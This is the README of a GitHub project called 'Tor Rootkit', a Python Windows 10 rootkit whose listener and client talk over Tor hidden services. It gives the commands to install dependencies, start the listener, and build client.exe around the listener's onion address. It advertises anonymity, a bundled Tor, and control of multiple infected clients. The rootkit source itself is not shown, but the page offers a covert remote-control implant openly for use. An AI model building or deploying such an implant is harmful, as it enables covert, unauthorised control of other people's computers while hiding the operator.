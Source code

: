 # Tor Rootkit
A python3 standalone Windows 10 Rootkit. The networking works over tor hidden services.
The exe Rootkit-File contains the tor expert bundle, so no staged payload is needed.

## Installation
First clone the git repository and change directory into the repo.

### Listener
Install all dependencies:
```bash
pip3 install -r listener/requirements.txt
```

After that the listener can be run with:
```bash
python3 ./listener/listener.py <hiddenservice-port> <local-port>
```
Or:
```bash
./listener/listener.py <hiddenservice-port> <local-port>
```

### Client
Note: The compilation of the Rootkit client ONLY works on Windows.

Install all dependencies:
```bash
pip3 install -r client\requirements.txt
```
Once the dependencies are installed you can build the executable file:
(Call build.py with the onion address and port of the listener.)
```bash
python client\build.py <onion> <port>
```
The .exe file should now be at:
```bash
.\client\dist\client.exe
```
Tor run the client just execute client.exe:
```bash
.\client.exe
```
Or run the client with the python interpreter:
```bash
python client.py
```

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients
